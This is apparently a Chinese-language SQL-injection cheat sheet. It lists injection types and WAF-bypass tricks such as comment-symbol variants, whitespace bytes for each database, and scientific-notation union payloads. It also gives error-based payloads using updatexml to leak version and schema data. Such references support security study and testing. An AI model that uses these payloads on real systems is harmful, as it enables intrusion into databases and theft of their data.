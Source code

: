 1. 基于报错注入
2. 基于布尔的注入，根据返回页面判断条件真假的注入
3. 基于时间的盲注，不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
4. 宽字节注入
5. 联合查询，可以使用 union 的情况下的注入。
6. 堆查询注入，可以同时执行多条语句的执行时的注入。

### SQL注入的原理
通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。通常未经检查或者未经充分检查的用户输入数据或代码编写问题，意外变成了代码被执行。

### 过waf
> https://blog.csdn.net/wjy397/article/details/53263281

1. 确定waf类型，狗、盾、神、锁、宝、卫士
2. 使用注释符号或者特殊符号或者多个特殊符号重复
```
# 
--
-- - //5.6.12特性，需要加空格
--+
//
/**/ //c风格注释
/**//**/  //多个注释
/*letmetest*/
;


# 科学记数法
id=0e1union select



# 空白字符
SQLite3 0A 0D 0C 09 20 
MySQL5 09 0A 0B 0C 0D A0 20 
PosgresSQL 0A 0D 0C 09 20 
Oracle 11g 00 0A 0D 0C 09 20 
MSSQL 01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20


```
3. 使用sql内置函数或者关键字
> 报错注入 https://blog.csdn.net/like98k/article/details/79646512
```
# 常用
extractvalue
updatexml 报错注入
UPDATEXML (XML_document, XPath_string, new_value); 
or updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> select * from  users where id = 1 and updatexml(1, concat(0x7e, (version()), 0x7e), 0);
> version() database() (SELECT concat(column_name) FROM information_schema.columns WHERE table_name='users' limit 0,1

floor()
ceil()
Mid(version(),1,1)
Substr(version(),1,1)
Substring(version(),1,1)
concat(version(),'|',user());
concat_ws('|',1,2,3)
Char(49)
Hex('a')
Unhex(61)
```
